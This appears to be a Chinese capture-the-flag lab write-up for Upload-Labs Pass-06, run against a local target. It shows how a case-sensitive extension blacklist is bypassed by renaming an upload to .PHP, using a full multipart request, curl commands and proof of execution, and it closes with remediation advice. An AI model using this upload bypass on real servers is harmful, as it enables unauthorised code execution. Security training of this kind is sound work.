


Upload-Labs Pass-06：扩展名大小写绕过
本文记录本机授权靶场 http://127.0.0.1:8081/Pass-06/index.php 的实验过程。Pass-06 使用扩展名黑名单拦截 PHP 文件，但判断过程区分大小写；把文件扩展名从 .php 改为 .PHP，即可让应用放行，而目标环境仍会把上传文件交给 PHP 解析。
一、实验信息
| 项目 | 内容 |
|---|---|
| 靶场 | Upload-Labs |
| 关卡 | Pass-06 |
| 漏洞类型 | 黑名单扩展名校验不完整，大小写绕过 |
| 工具 | Burp Suite、浏览器、curl |
| 验证目标 | 上传 PHP 文件，访问生成路径并确认代码执行 |
二、功能观察
页面要求上传一个 webshell，上传控件却提示“请选择要上传的图片”。先选择一个普通文件名为 一句话木马.php 的文件提交，并用 Burp 观察 multipart 请求；低版本实验阶段保留原始文件名，不修改任何请求字段。
在 Repeater 中可以更完整地看到文件字段。初始请求的文件名为 一句话木马.php，内容为一段仅用于本地靶场的 PHP 代码：

.php 扩展名，文件内容位于 multipart 请求体中。三、请求与载荷
截图中的 webshell 请求体如下。本文的最终验证改用只输出固定标记的无副作用脚本，避免把上传成功与命令执行结果混为一谈。
POST /Pass-06/index.php HTTP/1.1
Host: 127.0.0.1:8081
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEXAMPLE
------WebKitFormBoundaryEXAMPLE
Content-Disposition: form-data; name="upload_file"; filename="pass06_probe.php"
Content-Type: application/octet-stream
<?php echo "PASS06_EXEC_OK"; ?>
------WebKitFormBoundaryEXAMPLE
Content-Disposition: form-data; name="submit"
上传
------WebKitFormBoundaryEXAMPLE--四、漏洞定位
点击页面的“显示源码”后，可以看到服务端用数组维护扩展名黑名单，再通过 strrchr() 提取最后一个点及其后的内容。下面仅保留与本关相关的逻辑，黑名单其余项用 ... 省略：
$deny_ext = array(".php", ".php5", ".php4", ".pHp", ".pHp5", ...);
$file_name = trim($_FILES['upload_file']['name']);
$file_ext = strrchr($file_name, '.');
if (!in_array($file_ext, $deny_ext)) {
$img_path = UPLOAD_PATH . '/' . date("YmdHis") . rand(1000, 9999) . $file_ext;
move_uploaded_file($_FILES['upload_file']['tmp_name'], $img_path);
}关键问题有两个：
in_array($file_ext, $deny_ext)对字符串执行区分大小写的比较；黑名单只列出了部分混合大小写形式，没有覆盖.PHP。- 文件落盘后，扩展名由请求文件名直接拼接得到。目标环境的脚本处理器又会把大写
.PHP当作 PHP 文件执行。
.PHP；本关的放行点是应用黑名单区分大小写，随后才是 Windows 文件系统和 Web 服务器映射对扩展名大小写的处理方式。五、复现与验证
在 Burp Repeater 中只修改文件字段的 filename：
filename="pass06_probe.php"改为：
filename="pass06_probe.PHP"保持请求体、MIME 类型和其他字段不变，重新发送。为了排除偶然性，也可以直接用等价请求连续验证两次：
curl.exe -sS -i -X POST "http://127.0.0.1:8081/Pass-06/index.php" -F "upload_file=@.\\upload-pass06-probe.php;filename=pass06_probe.php;type=application/octet-stream" -F "submit=上传"
curl.exe -sS -i -X POST "http://127.0.0.1:8081/Pass-06/index.php" -F "upload_file=@.\\upload-pass06-probe.php;filename=pass06_probe.PHP;type=application/octet-stream" -F "submit=上传"两次响应形成了清晰对照：
| 请求文件名 | 服务端结果 |
|---|---|
pass06_probe.php | 提示：此文件类型不允许上传！ |
pass06_probe.PHP | 上传成功，返回路径 ../upload/202610281355254498.PHP |
upload/ 目录。最后访问响应中给出的文件路径：
curl.exe -sS "http://127.0.0.1:8081/upload/202610281355254498.PHP"响应正文为：
PASS06_EXEC_OK
这不是源码回显，因为响应中不存在 <?php ... ?>；固定字符串由 PHP 执行后输出，因此同时验证了文件已落盘、Web 路径可访问以及上传文件被解析执行。
六、影响与修复
扩展名黑名单只要漏掉一个可执行变体，就可能让上传文件进入 Web 目录。若服务器继续解析该扩展名，文件上传漏洞就会转化为服务器端代码执行。
- 不要维护可执行扩展名黑名单，改用明确的服务端扩展名白名单。
- 检查前统一转为小写，例如
strtolower(pathinfo($file_name, PATHINFO_EXTENSION))，但大小写归一化只能修补本关，不能替代白名单。 - 由服务端生成随机文件名和固定安全扩展名，不使用客户端提供的扩展名拼接落盘路径。
- 校验 MIME、文件内容和图像解码结果，并对图片重新编码。
- 将上传目录移出 Web 根目录，或在 Web 服务器层禁用上传目录的脚本执行权限。
七、复盘
Pass-06 的绕过点可以概括为“应用判断为未知扩展名，服务器映射却仍将其识别为 PHP”。复现时应分别记录黑名单拒绝、文件成功写入和访问后的执行回显，避免把“页面显示上传成功”直接等同于“代码执行已验证”。本关真正要修复的不是某一个大小写变体，而是整个扩展名信任模型。